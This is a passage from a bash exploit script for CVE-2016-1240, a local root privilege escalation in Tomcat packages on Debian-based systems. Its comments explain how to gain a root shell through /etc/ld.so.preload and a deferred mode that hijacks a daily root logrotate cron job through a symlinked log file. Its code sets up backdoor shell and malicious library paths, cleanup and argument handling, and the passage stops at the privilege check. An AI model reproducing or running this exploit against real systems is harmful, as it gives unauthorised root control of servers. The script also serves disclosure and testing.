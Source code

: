 ```bash
# gains/executes a rootshell via ld.so.preload as soon as Tomcat service is restarted. 
# It also gives attacker a chance to execute: kill [tomcat-pid] command to force/speed up
# a Tomcat restart (done manually by an admin, or potentially by some tomcat service watchdog etc.)
#
# -deferred (requires the -deferred switch on argv[2]) - this mode symlinks the logfile to 
# /etc/default/locale and exits. It removes the need for the exploit to run in a loop waiting. 
# Attackers can come back at a later time and check on the /etc/default/locale file. Upon a 
# Tomcat restart / server reboot, the file should be owned by tomcat user. The attackers can
# then add arbitrary commands to the file which will be executed with root privileges by 
# the /etc/cron.daily/tomcatN logrotation cronjob (run daily around 6:25am on default 
# Ubuntu/Debian Tomcat installations).
#
# See full advisory for details at:
# http://legalhackers.com/advisories/Tomcat-DebPkgs-Root-Privilege-Escalation-Exploit-CVE-2016-1240.html
#
# Disclaimer:
# For testing purposes only. Do no harm.
#

BACKDOORSH="/bin/bash"
BACKDOORPATH="/tmp/tomcatrootsh"
PRIVESCLIB="/tmp/privesclib.so"
PRIVESCSRC="/tmp/privesclib.c"
SUIDBIN="/usr/bin/sudo"

function cleanexit {
    # Cleanup 
    echo -e "\n[+] Cleaning up..."
    rm -f $PRIVESCSRC
    rm -f $PRIVESCLIB
    rm -f $TOMCATLOG
    touch $TOMCATLOG
    if [ -f /etc/ld.so.preload ]; then
        echo -n > /etc/ld.so.preload 2>/dev/null
    fi
    echo -e "\n[+] Job done. Exiting with code $1 \n"
    exit $1
}

function ctrl_c() {
        echo -e "\n[+] Active exploitation aborted. Remember you can use -deferred switch for deferred exploitation."
    cleanexit 0
}

#intro 
echo -e "\033[94m \nTomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit\nCVE-2016-1240\n"
echo -e "Discovered and coded by: \n\nDawid Golunski \nhttp://legalhackers.com \033[0m"

# Args
if [ $# -lt 1 ]; then
    echo -e "\n[!] Exploit usage: \n\n$0 path_to_catalina.out [-deferred]\n"
    exit 3
fi
if [ "$2" = "-deferred" ]; then
    mode="deferred"
else
    mode="active"
fi

# Priv check
```